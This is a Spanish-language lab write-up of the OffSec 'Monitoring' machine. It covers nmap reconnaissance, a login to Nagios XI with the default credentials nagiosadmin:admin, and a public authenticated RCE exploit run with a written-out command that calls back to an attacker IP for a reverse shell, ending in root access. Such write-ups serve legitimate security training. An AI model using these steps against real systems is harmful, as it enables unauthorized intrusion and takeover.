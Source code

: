 ```yaml
---
description: '✍️ Autor: OffSec 🔍 Dificultad: Fácil'
---
```


# Monitoring

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.197.136
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 192.168.197.136
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como se puede observar durante el escaneo, los siguientes puertos se encuentran abiertos:

* **Puerto 22**, correspondiente al servicio **SSH**.
* **Puerto 25**, correspondiente al servicio **SMTP**.
* **Puerto 80**, correspondiente al servicio **HTTP**.
* **Puerto 389**, correspondiente al servicio **LDAP**.
* **Puerto 443**, correspondiente al servicio **HTTPS**.

Dado que estos servicios están accesibles, se procederá a realizar un análisis más detallado sobre cada uno de ellos con el fin de identificar posibles vectores de ataque o configuraciones incorrectas.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,389,443 -v 192.168.197.136
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es una página de Nagios XI y al dar a acceder se nos muestra el panel de Login. Tras buscar las contraseñas por defecto nos logueamos (nagiosadmin:admin).

{% embed url="https://bobcares.com/blog/nagios-reset-password-for-nagiosadmin/" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando la página encontramos una versión por lo que miramos a ver si tiene un exploit.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Sí tiene exploit por lo que lo ejecutamos y así conseguimos una ejecución remota de código.

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/http/nagios_xi_mibs_authenticated_rce/" %}

{% @github-files/github-code-block url="https://github.com/hadrian3689/nagiosxi_5.6.6/blob/main/exploit.py" %}

Nos descargamos el exploit y lo ejecutamos.

```bash
python3 exploit.py -t http://192.168.197.136/ -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.157-lp 4444
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mientras nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

y sí somos **root**.

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
